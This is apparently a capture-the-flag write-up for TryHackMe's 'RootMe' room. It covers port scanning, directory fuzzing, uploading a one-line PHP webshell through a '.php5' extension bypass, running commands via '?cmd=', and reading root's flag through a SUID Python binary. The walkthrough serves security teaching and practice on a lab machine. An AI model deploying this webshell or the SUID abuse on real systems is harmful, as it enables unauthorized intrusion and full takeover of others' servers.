# RootMe — TryHackMe Writeup

**Platform:** TryHackMe  
**Room:** RootMe  
**Difficulty:** Easy  
**Points Earned:** 210  


---

## Overview

RootMe is a beginner CTF room on TryHackMe. The attack path goes through web enumeration, bypassing a file upload restriction to get a webshell, and then escalating to root via a SUID misconfiguration on Python.

---

## 1. Enumeration

### Nmap Scan

Starting with a basic Nmap scan:

```bash
nmap -Pn -T5 10.129.155.120
```

Two ports are open: **22 (SSH)** and **80 (HTTP)**. The web server is running **Apache**. SSH is noted but the web server is the more interesting target for now.

### Directory Fuzzing with ffuf

Running ffuf to find hidden directories:

```bash
ffuf -w /snap/seclists/1214/Discovery/Web-Content/common.txt \
     -fs 100,200 -u http://10.129.155.120//FUZZ -mc 200
```



A second run turns up the `/panel/` directory:



---

## 2. Foothold — File Upload Bypass

### The Upload Panel

Navigating to `/panel/` reveals a simple file upload page.



The site's homepage gives a hint about what we're dealing with:



Testing with a standard `.php` webshell gets blocked immediately:



### Bypassing the Filter

The filter only checks the file extension. Trying alternative PHP extensions one by one, **`.php5`** gets accepted and executes on the server.

The webshell used (`shell.php5`):

```php
<?php system($_GET['cmd']); ?>
```

Once uploaded, triggering it via the browser:

```
http://10.129.155.120/uploads/shell.php5?cmd=ls
```



Command execution confirmed as `www-data`.

---

## 3. User Flag

Searching for `.txt` files under `/var/www/`:

```
?cmd=find /var/www/ -type f -name "*.txt" 2>/dev/null
```



Reading it:

```
?cmd=cat /var/www/user.txt
```



> **User flag:** `THM{y0u_g0t_a_sh3ll}`

---

## 4. Privilege Escalation — SUID Python

### Finding the SUID Binary

Searching for files with the SUID bit set:

```
?cmd=find / -user root -perm /4000 2>/dev/null
```

`/usr/bin/python2.7` stands out — Python should never have SUID. This means any script run through it inherits root's effective UID.

### Confirming Root Access

Verifying the effective UID via the shell:

```
?cmd=python -c 'import os; print("euid:", os.geteuid(), "uid:", os.getuid())'
```



`euid: 0` — running as root.

### Reading the Root Flag

```
?cmd=python2.7 -c 'print(open("/root/root.txt").read())'
```



> **Root flag:** `THM{pr1v1l3g3_3sc4l4t10n}`

---

## 5. Complete



**210 points. Room complete.**

---

## Attack Summary

| Step | Action |
|------|--------|
| Nmap | Found SSH (22) and HTTP (80) |
| ffuf | Discovered `/panel/` upload page |
| File upload | Bypassed `.php` filter using `.php5` extension |
| Webshell | Executed commands as `www-data` |
| User flag | Found at `/var/www/user.txt` |
| SUID | `/usr/bin/python2.7` had SUID bit set |
| Root flag | Read `/root/root.txt` via SUID Python |

---

## Key Takeaways

- **Extension-based filters are weak** — always test alternative extensions like `.php5`, `.phtml`, `.phar`.
- **SUID on interpreters is dangerous** — any language binary (Python, Perl, Ruby) with SUID bit set means instant root.
- **`/uploads/` is always worth checking** — uploaded files that execute server-side are a critical misconfiguration.

---

## Tools Used

| Tool | Purpose |
|------|---------|
| `nmap` | Port and service scanning |
| `ffuf` | Directory fuzzing |
| `shell.php5` | PHP webshell for remote code execution |
| Browser URL bar | Sending commands via `?cmd=` |
| Python SUID | Reading root flag via privilege escalation |
